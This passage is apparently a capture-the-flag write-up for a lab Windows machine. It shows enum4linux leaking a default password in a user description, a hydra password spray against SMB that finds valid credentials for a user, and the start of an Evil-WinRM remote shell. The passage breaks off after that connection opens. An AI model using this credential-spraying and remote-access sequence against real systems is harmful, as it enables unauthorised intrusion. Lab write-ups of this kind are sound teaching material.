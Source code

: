 We can actually find more information with `enum4linux`, which gives us a very usefull hint about Marko Novak :
~~~
From Enum4linux :
=============================
|   Users on 10.10.10.169   |
=============================
...
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak
Desc: Account created. Password set to Welcome123!
...
~~~

We may have an account named "marko" with the password "Welcome123!".


* * *
## 3- Exploitation
### 3.1- Bruteforcing Credentials
However,  if we try to log in with these creds, it does not work. It must be a “welcome” password that has to be changed when the new user login. And he changed it. However, another user might have forgotten to change it and still has it active.

Let's make a user list “users.txt” and test it on the smb service :

~~~
root@kali:~# hydra -L users.txt -p Welcome123! smb://10.10.10.169
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-26 10:34:17
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 27 login tries (l:27/p:1), ~27 tries per task
[DATA] attacking smb://10.10.10.169:445/
[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-26 10:34:20
~~~

And we have a winner ! :+1:   
User: <span style="color:green">melanie</span>   
Password: <span style="color:green">Welcome123!</span>


### 3.2- Getting user.txt
It may be possible now to get a shell on the target. We can use `Evil-WinRM` :

~~~
root@kali:~# evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!

Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
~~~